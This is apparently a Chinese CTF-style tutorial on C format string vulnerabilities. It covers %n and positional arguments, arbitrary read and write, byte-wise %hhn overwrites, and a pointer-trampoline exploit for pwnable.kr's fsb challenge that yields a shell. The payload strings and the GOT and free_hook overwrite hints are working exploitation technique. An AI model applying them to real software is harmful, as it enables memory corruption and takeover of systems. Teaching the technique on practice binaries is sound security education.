








字符串格式化漏洞记录
题解在最后。
参考：https://blog.csdn.net/lrlhy1/article/details/115949939
遇到了一些字符串格式化漏洞的问题，看了不少相关内容，感觉需要拼凑拼凑。
格式化漏洞是什么就不说了吧，简单一句话：应该是 print('%s', str) 写成了 print(str) 。
语法说明
问题：为什么 %300c%14$n 可以真的将偏移值 14 的内存 写入了 300？这一部分就来解答这个问题
语法一
首先是 %n，这个比较简单，看一下下面的使用方式就知道了。
int main(void) {
int c = 0;
printf("the use of %n", &c);
printf("%d\n", c);
return 0;
}
程序最终结果是 11 ，因为读到 %n 时一共读了 11 个字符。
但是一定注意了是 &c 指向的数据变为 11，一定要时刻牢记是指向的数据，而不是自身数据！！
否则这个例子就不是 c = 11 ，而是 &c = 11 了。
语法二
下面来探讨 %14$n 的意思，这里的 %14$ 表示偏移量，表示第 14 个参数。下面看这个例子。
int main(void) {
printf("%2$d %2$#x; %1$d %1$#x", 16, 17);
return 0;
}
最终结果是 17 0x11; 16 0x10，因为 %2$ 表示使用第二个参数，也就是 17。
其中当进行 call printf 的时候栈结构如下：

语法三
最后来探讨 %300c%14$n，分成三块：
- 在 C 语言中，
%300c就是输出 300 个空白字符 - 输出了 300 个空白字符，
%14$n则让偏移 14 的那个内存所指向的数据写入了 300。
再次强调：%n 是往栈上的地址指向的地址处写入数据
漏洞利用
如下就是常见的漏洞，这里的 printf(s) 漏洞很大：
# include <stdio.h>
int main() {
char s[100]; scanf("%s", s);
printf(s);
return 0;
}
当进行到 printf(s) 中的 call printf 的时候，栈结构如下（实际情况可能 s 不是立刻就在下方，可能有间隔，需要自行在 gdb 中查看）：

任意读取
假如我们输入 s = p32(target) + %s，此时的栈结构如下：

此时相当于 printf("p32(target)%s")，打印时解析发现有一个 %s，他是第一个参数，也就是 arg1，所以相当于打印 p32(target) 指向的内容。
此时就时任意读取的功能。
任意地址写入
假如我们输入 s = p32(target) + xxx + %n，此时的栈结构如下：

同理，解析 printf 的时候，发现有一个 %n，回顾语法一，%n 想某个地址写入一共打印了多少字节数：
- 某个地址，此时就是第一个参数，即
arg1，即p32(target) - 一共打印多少字节数，那么就是
4 + len(xxx)
最终效果就是 target 指向的内容，写入了 4 + len(xxx)。
模拟练习
任意写入内存有一个固定的格式，当然这个还很抽象，看题就好了。
...[overwrite addr]....%[overwrite offset]$n
我们首先要根据 AAAA%x%x%x%x%x%x%x 这种来确定字符串偏移地址是多少。假定偏移值全是 6 。(最后一题除外)
题 1 ： 覆盖小数字
源代码
int a = 789;
# include <stdio.h>
int main() {
printf("%p\n", &a);
int c[5]; char s[100];
scanf("%s", s);
printf(s);
if (a == 16) { printf("okokoko~~~\n"); }
return 0;
}
分析
为了简便，题目把 a 的地址也打印了，假定是 0xfffffe00。
根据我们上面任意地址写入分析的，输入 p32(0xfffffe00) + %12c%6$n 即可，此时 call printf 时候栈的内容是下方图的左边，分成 p32(0xfffffe00) + %12c 和 %6$n 两部分来看待，很清晰。
但是实际是错误的，因为 p32(0xfffffe00) 末位是 \x00 ，因此截断了输入。所以我们要换种方式，很简单，把这个挪到后面去，构造： %16c%8$n + p32(0xfffffe00) 。注意有两个变化：输入从 %12c 变成 %16c，然后偏移 %6$n 变成 %8$n，仔细想一想原因，此时栈的内容变成右边的情况。
实际情况栈的位置可能有所不同，具体在 gdb 中调试查看。

题 2 ： 覆盖大数字
源代码
unsigned int a = 789;
# include <stdio.h>
int main() {
printf("%p\n", &a);
int c[5]; char s[100];
scanf("%s", s);
printf(s);
if (a == 0x51525354) { printf("okokoko~~~\n"); }
return 0;
}
分析
首先说明 0x51525354 == 1364349780，假设 a 地址是 0x80404040。
按照上面题目一的分析， 那么就%136439780$n + p32(0x80404040) ，然而失败了。因为 0x51525354 个字符太多了！！要输出那么多字符，会出错。根据经验，一般 0x10000000 以内是可以接受的，超过这个范围一般会错误
所以怎么办呢？好在除了 %n 还有以下可以利用。
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
正确做法构造如下的格式化字符串。
p32(0x80404040) + p32(0x80404041) + p32(0x80404042) + p32(0x80404043) +
%68c%6$hhn + %255c%7$hhn + %255c%8$hhn + %255c%9$hhn
我们目标是在 0x80404040 写入 0x51525354，高地址是 0x51，低地址是 0x54：
0x80404040: 4 个 p32 + %68c = 16 + 68 = 84
0x80404041: 84 + %255c = 84 + 255 --> 超过了 256，取模 --> 83
0x80404042: 84 + 255 + %255c = 84 + 255 + 255 --> 取模 --> 82
0x80404043: 84 + 255 + 255 + %255c --> 81
题 3 ： 漏洞字符串在堆上
源代码
原题来自 pwnable.kr 的 fsb 。
#include <stdio.h>
unsigned long long key;
char buf[100];
void fsb() {
for(int i=0; i<4; i++){
printf("Give me some format strings(%d)\n", i+1);
read(0, buf, 100);
printf(buf);
}
read(0, buf, 100);
unsigned long long pw = strtoull(buf, 0, 10);
if(pw == key) { system("/bin/sh"); }
}
int main(int argc, char* argv[], char** envp) {
read( open("/dev/urandom", O_RDONLY), &key, 8 );
fsb(); // exploit this format string bug!
return 0;
}
分析
这题的不同点在于，它的漏洞变量 buf 是全局变量，在堆上。左图是上面题目的栈空间，它的 buf（也就是图里面的 s）是栈中的，所以 buf 里面内容对应的参数通常是偏移 6、偏移 8 这样。而放在堆中，则是右图，一方面 buf 的内容相对于栈可能偏移非常非常大，另一方面栈的地址是随机的，这样每次的偏移都不一样。

对于这种情况要使用跳板，即由一次修改变为两次修改。
需要在 gdb 中调试，查看栈中有哪些比较近的引用，如下图所示，栈顶是 0xffe8ddc0，发现有两个比较近的引用：
- 第 14 个偏移中的内容
0xffe7de10指向第 20 个偏移（0xffe8de10） - 第 15 个偏移中的内容
0xffe7de14指向第 21 个偏移（0xffe8de14）

其中 key 的位置是 0x0804A060，我们分成两步走。
-
第一步：使用
'%' + str(0x0804A060) + 'c%14$n'，即输出0x0804A060个字符，然后修改第 14 个偏移指向的内容；而上图中的第 14 个偏移指向的是第 20 个偏移，所以结果是第 20 个偏移被修改：
-
第二步：使用
%20$n，即输出 0 个字符，然后修改第 20 个偏移指向的内容；而第 20 个偏移在上一步被我们修改了；因此，我们把0x0804A060地址对应的内容成功改成了 0。
由于 key 是 unsigned long long，即 8 个字节，所以我们还要修改 0x0804A064 也为 0，这样 key 最后就改成了 0。
fmt2 = '%' + str(0x0804A060) + 'c%14$n'
write1 = '%20$n'
fmt2 = '%' + str(0x0804A064) + 'c%15$n'
write2 = '%21$n'
总结，对于在堆中的字符串格式化漏洞，我们需要多观察栈中有什么可以间接跳的。 比如这里其实也可以不修改 key，而是修改 put@got 或者 free_hook 等更直接的方式。